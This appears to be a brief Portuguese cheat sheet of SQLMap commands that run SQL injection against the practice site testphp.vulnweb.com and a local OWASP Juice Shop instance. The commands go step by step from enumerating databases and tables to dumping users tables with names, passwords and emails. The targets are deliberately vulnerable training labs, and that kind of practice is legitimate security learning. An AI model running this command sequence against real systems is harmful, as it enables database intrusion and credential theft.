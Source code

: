 # SQLMap

Site para testes http://testphp.vulnweb.com
```
sqlmap --help
```
```
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dbs
```
```
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dbms=mysql -D acuart --tables
```
``` 
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dbms=mysql -D acuart -T users --columns
```
``` 
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dbms=mysql -D acuart -T users -C name,pass,uname,email --dump
``` 
Database Schema Juice-Shop
``` 
sqlmap -u "http://localhost:3000/rest/products/search?q=q" --dbms=sqlite --level=3 --risk=3 --technique=B --threads=4 --schema
```
```
sqlmap -u "http://localhost:3000/rest/products/search?q=q" --dbms=sqlite --level=3 --risk=3 --technique=B --threads=4 --tables
```
```
sqlmap -u "http://localhost:3000/rest/products/search?q=q" --dbms=sqlite -D SQLite_masterdb -T Users --dump --threads=4
```
```
sqlmap -u "http://localhost:3000/rest/products/search?q=q" --dbms=sqlite -D SQLite_masterdb -T Users -C email,password,role --dump --threads=4
```
## Fontes:

https://github.com/sqlmapproject/sqlmap/wiki/Usage

https://github.com/sqlmapproject/sqlmap/wiki/Introduction
